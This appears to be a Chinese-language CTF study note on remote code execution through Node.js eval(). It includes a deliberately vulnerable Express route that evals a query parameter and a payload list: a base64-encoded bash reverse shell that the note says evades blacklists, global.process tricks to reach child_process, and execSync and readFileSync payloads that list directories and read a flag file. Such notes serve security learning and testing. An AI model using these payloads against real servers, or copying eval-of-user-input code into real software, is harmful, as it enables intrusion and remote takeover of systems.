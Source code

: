 eval()函数执行其中的js代码，和PHP的eval函数一样

```javascript
const express = require("express");
const app = express();

app.get('/', function(req,res){
	res.end('Try to RCE');
})

app.get('/evil', function(req, res){
	res.send(eval(req.query.q));
	console.log(req.query.q);
})


const server = app.listen(8888, function(){
	console.log("Server Starts http://127.0.0.1:8888/")
})
```

Node.js中的child_process.exec调用的是/bash.sh，它是一个bash解释器，可以执行系统命令。

> 弹计算器 q=require('child_process').exec('calc');
>
> 反弹shell q=require('child_process').exec('echo YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMjcuMC4wLjEvMzMzMyAwPiYx|base64 -d|bash');   // base64编码绕过黑名单
>
> // bash -i >& /dev/tcp/127.0.0.1/3333 0>&1
>
> 注意：BASE64加密后的字符中有一个+号需要url编码为%2B(URL传参时)

对于Function来说上下文并不存在require，需要从global中一路调出来exec。若上下文没有require，

可以使用`Function("global.process.mainModule.constructor._load('child_process').exec('calc')")();`

或`Function("global.process.mainModule.require('child_process').exec('calc')")();`

![image-20221224225516768](../.gitbook/assets/image-20221224225516768.png)

其他函数：

间隔两秒执行函数：

- setInteval(some_function, 2000)

两秒后执行函数：

- setTimeout(some_function, 2000);

```javascript
?eval=require('child_process').execSync('ls');
?eval=require('child_process').execSync('ls').toString();
?eval=require('child_process').spawnSync('ls').output;
?eval=require('child_process').spawnSync('ls').stdout;

?eval=require('child_process').execSync('cat fl00g.txt');
?eval=require('child_process').spawnSync('cat',['fl00g.txt']).output;

读文件
?eval=require('fs').readdirSync('.');
?eval=require('fs').readFileSync('fl00g.txt');
```

有时候在命令执行中使用全局变量去探测可能会有奇效
`__dirname`、`__filename`